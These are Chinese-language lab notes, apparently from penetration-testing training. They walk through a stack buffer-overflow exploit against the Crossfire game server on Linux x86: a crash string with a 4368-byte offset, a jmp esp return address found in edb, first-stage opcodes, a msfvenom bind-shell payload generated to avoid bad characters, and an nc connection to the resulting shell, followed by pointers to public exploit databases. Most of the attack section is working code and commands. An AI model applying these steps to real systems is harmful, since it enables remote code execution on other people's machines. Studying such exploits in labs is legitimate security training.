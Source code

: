 修改py脚本:     crash = "\x41" * 4368 + "\x42" * 4 + "\x83\xC0\x0C\xFF\xE0" + "\x90\x90"

edb-Plugins-OpcodeSearcher-Opcode Search-(ESP -> EIP)-(r-x)-Find-选择找到的第一个jmp esp,复制其地址(0x08134597)

查找bad char

修改py脚本:
ret = "\x97\x45\x13\x08"
crash = "\x41" * 4368 + ret + "\x83\xC0\x0C\xFF\xE0" + "\x90\x90"

edb-右击-Goto Address-0x08134597-双击设置断点-开始运行

生成shell code:
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" --platdorm linux -a x86 -e x86/shikata_ga_nai

修改py脚本:
```
shellcode = ("xxx")
crash = shellcode + "\x41" * (4368-xx) + ret + "\x83\xC0\x0C\xFF\xE0" + "\x90\x90"
```

打开crossfire:
/usr/games/crossfire/bin/crossfire

netstat -antp | grep 4444       (没有任何信息,证明4444端口未开放)
python crossfire-poc.py
netstat -antp | grep 4444       (此时4444已开放侦听)
nc -nv 127.0.0.1 4444           (连接bind shell)



# 使用公开的exp

## 辨别exp

将下载下来的shellcode保存成payload.txt,在终端执行:
printf $(cat payload.txt |tr -d '\n')
将会将其解密后的结果显示在屏幕上


## 权威网站

https://www.securityfocus.com/vulnerabilities

https://www.exploit-db.com/


## 本地查找

ls -l /usr/share/exploitdb/
searchsploit slmail(漏洞/服务名)


## fixing exploits
